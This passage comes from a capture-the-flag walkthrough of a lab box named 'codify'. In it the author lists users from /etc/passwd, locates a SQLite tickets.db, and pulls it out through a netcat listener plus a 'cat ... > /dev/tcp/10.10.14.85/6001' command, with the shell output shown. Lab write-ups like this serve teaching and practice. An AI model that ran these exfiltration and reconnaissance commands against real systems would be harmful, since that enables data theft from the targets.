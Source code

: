 There is nothing interesting in home folder of svc.

```shell
svc@codify:~$ pwd
pwd
/home/svc
svc@codify:~$ ls -l
ls -l
total 0
-rw-r--r-- 1 svc svc 0 Apr 13 11:07 pwned
svc@codify:~$ cat pwned
cat pwned
```

We `cat /etc/passwd` and find another user named `joshua` and we probably need to pivot to this user.

```shell
svc@codify:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[OMITTED]
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
[OMITTED]
```

## Lateral Movement

Searching through the web directories `/var/www` we discover a SQLite database file in `/var/www/contact` directory.

```shell
svc@codify:/var/www/contact$ pwd
pwd
/var/www/contact
svc@codify:/var/www/contact$ file tickets.db
file tickets.db
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```

We will transfer the database to our local machine. For this we use Netcat to start a listener and redirect it to file.

```shell
labadmin@labmachine:~/codify$ nc -lnvp 6001 > tickets.db
Listening on 0.0.0.0 6001
```

On the target host we cat tickets.db file and redirect its contents to `/dev/tcp/10.10.14.85/6001`. This is not a file but to instruct the kernel to create a TCP connection to the specified IP and port and then write to it.

```shell
svc@codify:/var/www/contact$ cat tickets.db > /dev/tcp/10.10.14.85/6001
cat tickets.db > /dev/tcp/10.10.14.85/6001
```
